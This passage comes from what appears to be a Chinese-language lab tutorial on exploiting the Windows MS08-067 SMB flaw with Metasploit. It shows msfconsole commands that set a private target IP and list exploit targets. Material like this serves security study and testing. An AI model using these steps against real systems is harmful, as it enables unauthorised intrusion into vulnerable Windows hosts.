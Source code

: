 ### 6、查看被攻击主机的ip，并设置攻击ip
![image](https://github.com/498946975/Security/blob/master/images/ms08-067_1.png)
```shell script
msf6 exploit(windows/smb/ms08_067_netapi) > set RHOSTS 172.16.120.141
RHOSTS => 172.16.120.141
```
![image](https://github.com/498946975/Security/blob/master/images/ms08-067_2.png)
### 7、查看并设置攻击目标
也可以不设置，默认为0，自动匹配
```shell script
msf6 exploit(windows/smb/ms08_067_netapi) > show targets

Exploit targets:

   Id  Name
   --  ----
```
